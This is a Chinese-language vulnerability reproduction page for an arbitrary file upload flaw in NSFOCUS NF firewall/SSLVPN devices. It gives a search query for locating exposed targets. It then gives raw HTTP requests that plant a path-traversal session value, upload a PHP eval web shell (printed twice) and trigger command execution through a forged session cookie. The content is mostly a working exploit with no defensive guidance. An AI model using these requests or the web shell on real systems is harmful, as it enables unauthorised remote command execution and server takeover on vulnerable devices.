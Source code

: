 # 绿盟 NF下一代防火墙 任意文件上传漏洞

## 漏洞描述

绿盟 SSLVPN 存在任意文件上传漏洞，攻击者通过发送特殊的请求包可以获取服务器权限，进行远程命令执行

## 漏洞影响

<a-checkbox checked>绿盟 SSLVPN </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="NSFOCUS-下一代防火墙"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1658884417477-a47362c4-646d-464e-a094-9e36a53165d6.png)

出现漏洞的端口为 8081 

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=1d52ba2a11ad8a915eddab1a0e85acd9
Host: 

--1d52ba2a11ad8a915eddab1a0e85acd9
Content-Disposition: form-data; name="file"; filename="sess_82c13f359d0dd8f51c29d658a9c8ac71"

lang|s:52:"../../../../../../../../../../../../../../../../tmp/";

--1d52ba2a11ad8a915eddab1a0e85acd9--
```

![image-20230812085235711](/assets/PeiQi-Wiki/img/image-20230812085235711.png)

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![image-20230812085349551](/assets/PeiQi-Wiki/img/image-20230812085349551.png)



```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![img](/assets/PeiQi-Wiki/img/1684385511983-b0ced531-df95-4ca9-a34f-f0704fe7e98d.png)

```python
POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71
Host:

cmd=phpinfo();
```